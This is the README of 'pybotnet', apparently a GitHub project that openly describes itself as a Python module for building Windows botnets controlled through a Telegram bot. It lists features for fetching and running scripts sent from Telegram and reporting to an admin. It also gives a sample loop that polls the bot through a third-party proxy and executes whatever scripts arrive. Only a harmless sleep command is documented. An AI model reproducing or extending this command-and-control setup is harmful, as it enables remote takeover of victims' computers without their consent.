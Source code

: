 # pybotnet version 0.05

## A module for building windows botnets with Python and Telegram control panel

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to help me

### Features:
• get and execute scripts from telegram \
• send message to telegram admin \
• get command from telegram


### Requirements:

• Python 3.6 or higher.
```
pip install -r requirements.txt
```

### Sample:

```python
import pybotnet
import time

TELEGRAM_TOKEN = '1468299500:AAHsvEH-5VyIfWYMzZcYxF_e00000000000'
ADMIN_CHAT_ID = '12345678910'
delay = 60

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID, show_log=True)

while True:
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
Send this message to your api bot in telegram, using the admin account.
```
    COMMAND                                                 DO THIS
do_sleep <scconds> <message>                 # print(message); time.sleep(seccond)

```

